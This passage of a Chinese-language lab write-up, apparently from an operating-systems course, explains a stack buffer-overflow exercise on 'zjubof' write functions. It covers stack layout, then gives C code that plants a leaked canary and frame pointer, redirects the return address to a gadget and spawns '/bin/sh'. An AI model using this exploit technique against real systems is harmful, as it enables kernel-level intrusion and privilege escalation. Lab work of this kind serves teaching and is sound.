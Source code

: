 - `zjubof_write3` call `zjubof_write4`:

```assembly
sp = sp - 80
# ...
sp = sp + 80
```

当我们覆盖返回地址跳转到`first_level_gadget`时，`sp+80`和`sp+32`已经被执行，此时的`sp[0]`和`sp[8]`分别指向`zjubof_write`的`oldfp(x29)`和`ra(x30)`，在`first_level_gadget`中无需再将`x29`和`x30`压栈，同时为了在`first_level_gadget`执行完后能够正确返回到`zjubof_write`，需要手动添加指令将`sp+220`

3. 分析得到栈空间如下，并构造buffer

![image 6](image-20230530005054928.png)

buffer的前24字节和Task1是一样的，但是需要将Task1中得到的`canary/oldfp`填入buffer的24-40字节，然后将新的返回地址填入40-48字节

4. 关键代码及结果

```c
void hackUsingFirstLevelGadget(int fd, size_t offset) {

    char buf[49] = "0123456789ABCDEF\x30";

    size_t newRA = RAToFirstLevelGadget + offset;

    memcpy(buf + 24, canaryStr, 8);
    memcpy(buf + 32, oldFPStr, 8);
    memcpy(buf + 40, (char*)&newRA, 8);
    
    write(fd, buf, 48);

    system("/bin/sh"); 

    return;
}
```
